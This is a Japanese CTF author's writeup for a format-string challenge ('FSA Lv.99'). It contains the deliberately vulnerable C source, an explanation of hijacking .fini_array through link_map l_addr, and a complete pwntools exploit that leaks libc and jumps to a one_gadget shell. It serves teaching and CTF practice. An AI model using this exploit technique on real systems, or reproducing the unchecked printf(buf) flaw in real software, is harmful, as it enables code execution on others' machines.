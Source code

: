 # 第2回サイバーセキュリティ・スクール (CTF編) 2022 `FSA Lv.99 [バイナリハック]` writeup

大阪大学CTFサークル Wani Hackase所属のCaffeineと申します☕。

2022/09/15(金)に開催されました『第2回サイバーセキュリティ・スクール (CTF編)』で出題した`FSA Lv.99`の作問者writeupを公開します。

本問題について、イベント内の90分という限られた時間で解くにしては作業量が多すぎたと後悔しています。

本イベント及び付随するCTFは、専門知識を持ち合わせていない初学者向けに実施しておりました。
そんな中、CTF経験豊富な方々も楽しんでいただけるようにとFormat String Attack (FSA)のとびきり難しそうな問題を用意しました(初心者向け問題の出題テーマがFSAだったため)。
しかしCTFが終了してみるとsolve数0と大失敗でした。大変申し訳ございません。

以下writeupです。

## 問題
ソースコードと実行バイナリ、libc、Docker環境など一式提供されています。
以下はソースコードです。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void init(){
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

int main(){
    char buf[0x30];
    init();
    scanf("%47s", buf);
    printf(buf);
    return 0;
}
```

## 解法
ソースコードは非常にシンプルな作りです。
0x30バイト分のバッファにユーザからの入力を受け付けてprintf(buf)で出力します。
ここに自明なFormat String Bugがあります。
しかしながら、1度printf()を呼んだ後main()は終了してしまいます。
必要なアドレスをリークしながら、mainをもう一度呼ぶことはできるでしょうか。

ここでセキュリティ機構を確認しましょう。

```
[*] '/home/caffeine/ctf/west_sec22/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

PIE無効、それ以外は全部有効です。Full RELROなのでGOTを書き換えてret2mainすることはできません (仮にPartial RELROだとしても__stack_chk_failくらいしか狙えませんし呼ぶこともできないはずです)。

このような場合、mainからreturnした後に実行されるデストラクタ内で制御を奪う手法が効果的です。
mainが終了すると続いてexitが呼ばれます。
exitの中では、.fini_array上に置かれたデストラクタ関数を順に呼び出します。
RELROが有効でなければ.fini_arrayをmainに書き換えてret2mainを成立させたいところですが、本問はFull RELROなので.fini_arrayに対して書き込みの権限がありません。

そこで、.fini_arrayのアドレス解決を狙います。
.fini_arrayのアドレス解決には、link_map構造体の変数l_addrを使用します。
l_addrにはELFとメモリ空間のアドレスのオフセットが入っています (PIE無効の場合は0, 有効だと0x55...みたいな値が入っている)。
この値を書き換えることができれば、.fini_arrayのアドレスを書き込み可能な.bssセクションに偽装することができます。
そして有難いことに、l_addrのアドレスは最初にプログラムをメモリに乗せる際にスタックに格納されます。

![](l_addr.png)

これがFSAの格好の的だというのが本問の出題意図でした。

ret2mainの方針さえ立てば後はやるだけですが、一応自分のexploitの方針を載せておきます。
bufのサイズが0x30バイトしかないので、このexploitでは3回に分けて攻撃を行います。

1回目のmainでは
1. .fini_arrayが.bssセクションに偽装されるようにl_addrを書き換える。
2. 該当する.bssセクションのアドレスをにmainのアドレスを書き込む。
3. スタックをダンプしてスタックのアドレスをleakする。

を達成します。

2回目のmainでは
1. returnアドレスを_startに書き換える。
2. libcをリークする。

を達成します。
exitの途中で制御を奪っただけなので、このままmainを終了しても再びmainに復帰するわけではないことに注意してください。

3回目のmainでは
1. one gadgetの制約を満たすようにスタックにあるアドレスに0を書き込む。
2. returnアドレスをone gadgetに書き換える。

を達成します。

## Exploit
```py
from concurrent.futures import process
import sys
from pwn import *

elf = ELF("chall")
libc = ELF("libc.so.6")

io = process(elf.path)
# io = remote("54.152.139.83", 9005)

gdb.attach(io,'''
    b *0x0000000000401226
''')

one_gadget1 = 0xe3afe
one_gadget2 = 0xe3b01
one_gadget3 = 0xe3b04

bss_addr = 0x404090
offset = bss_addr - elf.sym["__do_global_dtors_aux_fini_array_entry"]
payload = b"%%%dc%%34$n" % offset
offset = elf.sym["main"] - offset
payload += b"%%%dc%%10$n" % offset
payload += b"%12$p"
payload += b"A" * (0x20 - len(payload))
payload += p64(bss_addr)
io.sendline(payload)

ret = io.recvuntil(b"AAA\x90@@")
stack_arena_addr = int(ret[-18:-6].decode(), 16)

ret_addr = stack_arena_addr - 456

payload = b"%9$n"
payload += b"%*37$c%10$n"
payload += b"%24$p"
payload += b"A" * (0x18 - len(payload))
payload += p64(ret_addr + 4)
payload += p64(ret_addr)
io.sendline(payload)

ret = io.recvuntil(b"AAAA")
libc.address = int(ret[-16:-4].decode(), 16) - libc.sym["_IO_2_1_stderr_"]

print("libc addr: " + str(hex(libc.address)))
ret_addr -= 0xe0
payload = b"%25$n"
b = ((libc.address + one_gadget2) >> 16)  & 0xff
payload += b"%%%dc%%10$hhn" % b
b = (((libc.address + one_gadget2) & 0xffff) - b)
payload += b"%%%dc%%11$hn" % b
payload += b"A" * (0x20 - len(payload))
payload += p64(ret_addr + 2)
payload += p64(ret_addr)

io.sendline(payload)


io.interactive()
```
